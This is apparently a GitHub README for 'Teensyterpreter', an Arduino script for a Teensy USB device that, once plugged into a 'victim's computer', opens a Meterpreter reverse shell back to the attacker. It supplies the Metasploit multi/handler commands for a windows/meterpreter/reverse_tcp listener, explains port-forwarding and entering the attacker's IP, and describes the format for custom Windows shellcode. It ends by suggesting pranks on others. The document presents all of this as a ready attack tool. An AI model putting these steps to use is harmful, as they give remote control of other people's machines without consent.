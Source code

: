 Teensyterpreter
===============

A small Arduino script used to open a remote Meterpreter shell on a victim's computer. Designed to be loaded onto a Teensy 2.0 or later and then plugged in to the target. The attacker must use a Metasploit shell to connect back to the target, if using the supplied shellcode, though custom shellcode can be used. 

Supplied Shellcode & Metasploit Setup
------------------

The normal shell can be received by the attackers computer listening for a connection. Port forwarding is required, and your IP and port must be entered into the first two lines of the script. The Teensy will automatically convert your IP and port into hexadecimal, and will automatically insert it into the code where it needs to be. The shell can be received using the following metasploit commands, in order. You must replace the port and IP with your public IP and the public port you are using.

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.1
set LPORT 4444
set ExitOnSession false
exploit -j -z
```
Custom Shellcode
----------------

In the case that you are supplying your own custom shellcode, it must be in the correct format for proper use. See the normal shellcode for an example. The shellcode must also be generated for a 32 bit Windows x86 architecture, and placed with the exact punctuation and spacing as the default shellcode into the custom shellcode variable. 

Port-Forwarding
---------------

If you are behind a router or other internet access device, you will probably need to port-forward your computer. Consult your router's manual for a tutorial on how to do this, or read one of the many guides online. 

Fun Stuff
--------- 

Metasploit has a joke payload, the "You Got Pwned" payload. I'd also reccomend consulting the USB Rubber Ducky forums for ideas and ways to perform jokes and pranks using an HID USB.
